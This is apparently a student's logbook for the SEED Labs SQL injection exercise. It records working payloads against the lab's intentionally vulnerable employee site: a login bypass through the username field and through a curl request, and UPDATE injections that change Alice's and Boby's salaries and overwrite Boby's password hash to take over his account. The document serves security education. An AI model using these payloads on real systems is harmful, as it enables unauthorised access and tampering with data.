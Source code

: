 # Tasks for week \#7


## SQL Injection Seed Labs

- **Task 1**:
    - To print all the profile information of the employee alice, we run the following command:

![task1.1](docs/logbook7/task1_ph1.png)

- **Task 2.1**:
    - In order to gain access to the administrator page, we introduced the following input to the username field
    ```
    username = admin' or '1' = '1;
    password= 1234
    ```
![task2.1](docs/logbook7/task2_ph1.png)
![task2.2](docs/logbook7/task2_ph2.png)
- **Task 2.2**:
    - The objective of this task is the same as the one presented previously, although we will use a http request. We used the same parameters, resulting in the following request: 
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=admin%27or%271%27%3D%271&Password=1234
    ```
    - %27 corresponds to the http enconding for the character ' and %3D to the character =
    - After executing the request, we obtain the following result:
![task2.3](docs/logbook7/task2_ph3.png)

- **Task 2.3**:
    - The php unsafe_home.php code uses the 'query' function of mySQL. This function has a counter measure that prevents the execution of multiple queries. To execute multiple queries, we need to use the 'multi_query' function.


- **Task 3.1**:
    - De modo a alterar o salário do utilizador alice, injetamos no parametro Nickname a seguinte string:
    ```
    Alice', Salary=999999, nickname='Alice
    ```
    - Deste modo, o parametro salary será adicionado à query de update.
    - Before executing the query:
    ![task3.1](docs/logbook7/task3_ph1.png)
    - After executing the query:
    ![task3.2](docs/logbook7/task3_ph2.png)

- **Task 3.2**:
    - In order to change Boby's salary, we inject in the Nickname parameter the following string:
     ```
    Boby', Salary = 1 where Name = 'Boby'#
    ```

    - This way, the salary parameter will be added to the update query, the where will filter to the name Boby and the # character will comment the rest of the query
    - After executing the query:
    ![task3.3](docs/logbook7/task3_ph3.png)

- **Task 3.3**:
    - In this task, we used the same approach as the task 3.2 injecting the following string:

    ```
    Boby', Password = '7110eda4d09e062aa5e4a390b0a572ac0d2c0220' where Name = 'Boby'#
    ```

    - Como sabemos que a password é guardada utilizando a função de hash sha1 utilizamos um gerador de hash online para a password 1234 obtendo o seguinte resultado:
    
    ![task3.4](docs/logbook7/task3_ph4.png) 

    - After executing the query:

    ![task3.5](docs/logbook7/task3_ph5.png)

    - This way we gain access to Bobby's account with the password 1234:

    ![task3.6](docs/logbook7/task3_ph6.png)


